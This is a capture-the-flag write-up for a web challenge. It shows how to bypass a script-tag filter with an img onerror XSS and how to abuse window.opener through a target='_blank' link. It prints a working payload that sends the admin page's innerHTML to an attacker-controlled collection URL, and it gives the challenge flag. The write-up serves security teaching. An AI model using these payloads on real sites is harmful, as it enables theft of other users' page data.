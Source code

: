 # IRS Internal CTF: Web

## Xtreme Static Sites (sheepymeh) [250 Points]

**[This website](http://irscybersec.tk:10782/) seems pretty cool, but I don't trust it. The page tells us that the admin panel is very simple, but I don't believe them. Can you find out the true `innerHTML` of the admin panel?**

### Solution

The title points us to an XSS:

```html
<script>alert(1)</script>
```

Ah snap. It blocks `<script>` tags, but we know [we can use other tags to XSS it easily](https://owasp.org/www-community/xss-filter-evasion-cheatsheet):

```html
<img src='fail' onerror='alert(1)'>
```

First filter passed. Now, we need to get the information we need. If you perform a normal XSS and exfiltrate the cookie, you'll soon come to the realization that this challenge is worth more than 5 points.

Looking at the source code provided, we can see that the admin is clicking on a link, generated by the JavaScript:

```html
<a href="/user/yoursite.html" target="_blank">Click here for the reported link</a>
```

Doesn't seem too suspicious.

This is where the OSINT/staying up to date comes in. [This vulnerability has been known for quite some time](https://web.dev/external-anchors-use-rel-noopener/), and is indeed rather dangerous (yet quite a few courses still explain `target="_blank"` without proper mitigation). Using this vulnerability, an attacker can access information about the site that opened it using the `window.opener` variable.

Unfortunately, this does not work cross-domain. If I open a website on `google.com` from `facebook.com`, `window.opener` will be empty. The variable is only available on the same domain name.

Fortunately, the server allows us to server JavaScript on their domain, directly. How nice! A special XSS payload can hence be crafted:

```html
<img src='fail' onerror="fetch(`<processor_url>?data=${encodeURIComponent(window.opener.document.body.innerHTML)}`)">
```

The processor script should store the `data` parameter.

A quick explanation on what this does:

| Code                      | Description                                                  |
| ------------------------- | ------------------------------------------------------------ |
| `fetch`                   | Send a `GET` request                                         |
| `encodeURIComponent`      | Make the request valid                                       |
| `window.opener`           | As mentioned above. The `window` object of the opener. This can be used in the same way as `window` on the page itself as our page is on the same domain as the admin page. |
| `document.body.innerHTML` | The `innerHTML`, i.e. source code of the page.               |

### Remarks

* It is imperative that you know that `window.opener` includes the `document` object.
* `window.open()` also causes the variable to be set.

### Flag

```
IRS{R3M3MB3R_7H3_N00P3N3R}
```